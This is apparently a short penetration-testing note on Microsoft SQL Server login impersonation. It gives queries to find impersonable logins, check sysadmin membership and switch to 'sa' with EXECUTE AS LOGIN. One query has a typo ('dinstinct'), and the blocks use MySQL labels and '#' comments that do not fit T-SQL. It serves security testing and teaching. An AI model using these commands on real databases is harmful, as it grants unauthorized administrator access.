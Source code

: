 -- -
You can impersonate other users on the db depending on the permissions your user has. For example, a sysadmin could impersonate anyone in the db.
### Identify Users We Can Impersonate
```mysql
SELECT dinstinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```
### Verify Current User & Role
```mysql
# if output is 1, you have sysadmin privs
# if output is 0, you don't have sysadmin privs, but you may be able to impersonate a user that does. 
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
### Impersonate another user
```mysql
EXECUTE AS LOGIN = '<user>'
EXECUTE AS LOGIN = 'sa'

# revert back
REVERT
```